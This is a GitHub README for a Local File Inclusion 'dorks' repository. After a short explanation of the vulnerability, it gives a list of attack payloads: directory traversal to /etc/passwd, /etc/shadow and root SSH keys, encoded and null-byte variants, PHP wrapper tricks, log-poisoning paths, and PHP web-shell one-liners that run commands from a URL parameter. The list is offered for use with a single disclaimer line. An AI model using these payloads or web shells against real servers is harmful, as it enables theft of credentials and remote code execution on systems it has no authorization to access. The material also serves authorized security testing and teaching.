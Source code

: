 # Local File Inclusion (LFI) Dorks Repository

![Local File Inclusion](https://img.shields.io/badge/Local%20File%20Inclusion-blue)

Welcome to the Local File Inclusion (LFI) Dorks repository! This repository holds a collection of LFI dorks and an explanation of what LFI is, along with examples of LFI dorks and techniques.

## Table of Contents
- [What is Local File Inclusion (LFI)?](#what-is-local-file-inclusion-lfi)
- [Examples of Local File Inclusion (LFI) Dorks](#examples-of-local-file-inclusion-lfi-dorks)
- [Understanding LFI](#understanding-lfi)
- [Advanced LFI Concepts](#advanced-lfi-concepts)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)


## What is Local File Inclusion (LFI)?

Local File Inclusion (LFI) is a vulnerability allowing an attacker to include files on a server through the web browser. Exploiting this vulnerability can lead to reading sensitive information, executing arbitrary code, or even obtaining full control over a system.

## Examples of Local File Inclusion (LFI) Dorks

Here are examples of Local File Inclusion (LFI) dorks that can be used to test for or identify websites vulnerable to LFI attacks:

1. **Basic LFI Dork:** Identifies websites potentially vulnerable to LFI.

   ```
   http://example.com/page.php?file=filename.php
   ```

2. **Traversing Directories:** Testing for LFI by trying to traverse directories.

   ```
   http://example.com/?page=../../../../../../etc/passwd
   ```

3. **Null Byte Injection:** Checking for LFI using null bytes.

   ```
   http://example.com/page.php?file=filename.php%00
   ```

## Understanding LFI

Understanding LFI vulnerabilities is crucial. Exploiting an LFI can allow an attacker to read sensitive files, execute arbitrary code, and potentially gain unauthorized access to the system.

## Advanced LFI Concepts

Advanced LFI involves bypassing filters, manipulating input parameters, and escalating access. Techniques include using wrapper protocols (such as data://, php://, and file://), directory traversal attacks, and exploiting different web server configurations.

## Local File Inclusion (LFI) Payloads

Here are various payloads useful for testing LFI vulnerabilities in web applications:

1. **Basic LFI Payload:**

   ```
   ../../../../../../etc/passwd
   ```

2. **URL Encoding Payload:**

   ```
   ..%2f..%2f..%2fetc%2fpasswd
   ```

3. **Null Byte Payload:**

   ```
   ../../../../../../etc/passwd%00
   ```

4. **Wrapper Protocol Payloads:**

   - `php://filter/convert.base64-encode/resource=index.php`
   - `data://text/plain;base64,SGVsbG8gV29ybGQ=`

5. **Directory Traversal Payloads:**

   - Windows: `../../../windows/win.ini`
   - Linux: `../../../etc/passwd`
   
6. **Shell Command Execution Payloads:**

   - `<?php echo shell_exec($_GET['cmd']); ?>`
   - `<?php system($_GET['cmd']); ?>`

7. **Server Log File Payloads:**

   - `/var/log/apache/access.log`
   - `/var/log/nginx/access.log`

8. **Windows File Payloads:**

   - `C:\boot.ini`
   - `C:\Windows\System32\drivers\etc\hosts`

9. **PHP Configuration Payload:**

   ```
   /proc/self/environ
   ```

10. **Web Server Configuration Payloads:**

    - Apache: `/etc/httpd/conf/httpd.conf`
    - Nginx: `/etc/nginx/nginx.conf`

11. **Sensitive File Payloads:**

    - `../../../root/.ssh/id_rsa`
    - `/etc/shadow`
   
These payloads are meant for educational and testing purposes only. Always ensure you have proper authorization and permissions before using them on systems.



## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is a comprehensive resource that contains an extensive collection of LFI dorks, categorized folders, and detailed documentation covering various LFI attack vectors, methods, and tools.

## How to Use This Repository

This repository is organized into folders, each containing specific LFI dorks and related information. Users can explore these folders to discover LFI dorks of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are encouraged! If you have additional LFI dorks, examples, or documentation to share, follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your LFI dorks or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the community.

Happy hunting for LFI vulnerabilities, and remember to act responsibly and ethically when testing security vulnerabilities.
